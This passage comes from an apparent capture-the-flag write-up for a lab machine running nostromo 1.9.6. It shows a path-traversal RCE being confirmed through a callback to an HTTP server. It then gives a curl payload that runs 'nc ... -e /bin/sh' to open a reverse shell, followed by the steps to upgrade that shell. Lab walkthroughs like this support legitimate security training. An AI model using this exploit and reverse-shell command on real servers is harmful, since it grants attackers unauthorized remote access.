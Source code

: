 ```bash
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
<html>
<head>
<title>500 Internal Server Error</title>
<meta http-equiv="content-type" content="text/html; charset=iso-8859-1">
</head>
<body>

<h1>500 Internal Server Error</h1>

<hr>
<address>nostromo 1.9.6 at 10.10.10.165 Port 80</address>
</body>
</html>
```
In this shell this seems like a failure, but in the server shell:
```bash
❯ python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
10.10.10.165 - - [11/Jun/2022 11:31:36] code 404, message File not found
10.10.10.165 - - [11/Jun/2022 11:31:36] "GET /index.html HTTP/1.1" 404 -
```
We recieved the request, so the RCE is confirmed, but we can't see any output.

### User shell via RCE
Now we can try to run a reverse shell on the machine and obtain a shell in the machine:
```bash
# Trigger terminal
❯ curl -X POST "http://10.10.10.165/.%0d./.%0d./.%0d./.%0d./.%0d./bin/sh" -s -d "nc 10.10.14.15 3333 -e /bin/sh"
# Listening terminal
❯ nc -nlvp 3333
Connection from 10.10.10.165:56114
whoami
www-data
hostname -I 
10.10.10.165 
# Upgrading shell
which script           
/usr/bin/script
which bash
/usr/bin/bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@traverxec:/usr/bin$ ^Z
zsh: suspended  nc -nlvp 3333
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 3333
                               reset xterm
www-data@traverxec:/usr/bin$
```
